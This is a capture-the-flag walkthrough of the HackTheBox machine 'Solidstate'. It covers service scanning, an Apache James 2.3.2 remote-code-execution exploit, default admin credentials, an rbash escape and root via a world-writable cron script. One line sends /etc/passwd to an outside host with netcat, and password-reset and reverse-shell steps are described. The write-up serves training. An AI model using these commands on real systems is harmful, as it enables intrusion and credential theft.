


# Solidstate writeup
## Discovery
```bash
# Nmap 7.91 scan initiated Thu Jan  7 10:19:03 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp  open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.4 [10.10.14.4]), 
80/tcp  open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp open  pop3    JAMES pop3d 2.3.2
119/tcp open  nntp    JAMES nntpd (posting ok)
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  7 10:19:27 2021 -- 1 IP address (1 host up) scanned in 24.52 seconds
```

We can see that there is a webserver running on port 80, and some POP3 mail related related services.

 Let's check out the web page. Ooh a fancy security company. I'm sure they are super secure.
  
The website seems to be running some running some template by HTML5 Up called solid state.

It seems to be really just a static template with no server-side code execution. I found the source on github:
https://github.com/quimo/html5up-solid-state

In the meantime let's use dirbuster in super fast mode with a medium-sized list.
I used to just use the python tool dirsearch, but I've noticed that it's so much slower than dirbuster in multithreaded mode, so I prefer it for larger lists now.


Dirbuster did not really reveal anything interesting, so let's go back to our nmap scan.
While we're at that, let's run a full nmap scan with all ports, just to be sure we did not miss anything. Huzzah! We did find another port open, 4555.
```
Full nmap scan
Discovered open port 4555/tcp on 10.10.10.51
```
Googling around for `JAMES pop3d 2.3.2` exploits I found this, which should allow RCE (remote code execution) for our james pop3 server we discovered via the nmap script
https://gist.github.com/kjiwa/82d3bb091d45b59c1d7674727b1292a7

I need to change the command to be executed:
```python
gflags.DEFINE_string('command', 'cat /etc/passwd | nc 10.10.14.4 1234', 'The command to be executed.')
```
It tells us that the command will be executed the next time a user logs in to the machine.
We can't do that yet though, and I doubt that any of the users are actually being simulated.
Might be useful for later though.
Let's check out the management service that the exploit uses on port `4555`.
The exploit tells us that root/root should be the default credentials. Let's try that:

Success, we can now use this interface to modify users.
Just to see if we really have access, I created a user `test`:

There is also the command `listusers`. Hmm `mailadmin` looks juicy. Let's change his password with the `setpassword` command:


Connecting with the mailadmin shows no emails though unfortunately:


There are other juicy users though. Let's try mindy!


And to mix it up, let's use thunderbird to list the emails:


And indeed, poor old Mindy seems to have gotten some mail


```
Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: <censored>

Respectfully,
James
```

Let's log in with mindy then: `ssh mindy@10.10.10.51`

Running some commands we can see that they really don't trust this poor mindy person. She cannot run anything useful :(


The only tools she's allowed to use are in this ./bin directory. Not a lot in there though.
I think we should find a way for mindy to be free and run whatever we want. Equal rights and whatnot!


The easiest way I could think of would be to just append more directories to her `PATH`:
```
mindy@solidstate:~$ export PATH=/bin:/usr/local/bin/:/usr/bin/:$PATH
-rbash: PATH: readonly variable

mindy@solidstate:~$ /bin/bash 
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```
But it seems that they have thought about that.
I found this article which sheds some light on restricted shells.
https://www.oreilly.com/library/view/network-security-hacks/0596006438/ch01s19.html

But wait... we still have something that we did not use yet. We can log in as a user now!
So let's try our python script from before (keen eyed people will notice it's a different python file, but the same exploit, I found this one easier to use)


Now we just need to log in as mindy again, and the RCE will be triggered. We get a shell in our netcat listener!

This shell is much more usable, it actually allows us to run commands!  


## Privilege Escalation
Ok now that we have a usable shell we can actually run some diagnostic tools. I'll start an updog server (what's updog? 👉😎👉 Not much just a minimal HTTP server).


We'll wget that from our machine and run it.
It did find some password, but it doesn't seem to work for anything. May very well be some default. (su root -> nothing)
```
/etc/apache2/sites-available/default-ssl.conf:          #        file needs this password: `xxj31ZMTZzkVA'.
```
Seems that linPEAS did not really find anything, so let's try LinEnum.
This time I actually learned about it's thorough mode with `-t`, which also does more file system checks
```bash
sh LinEnum.sh -t
```
It found something interesting! A file that is chmoded to 777 and belongs to root. It may be that it's executed periodically?
```
-e [-] World-writable files (excluding /proc and /sys)                                                                             
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py                                              
```

Looking at it it's a simple python file that executes a system command.
```sh
rm -r /tmp/*
```
Let's change it to execute a reverse shell:


And we're root!


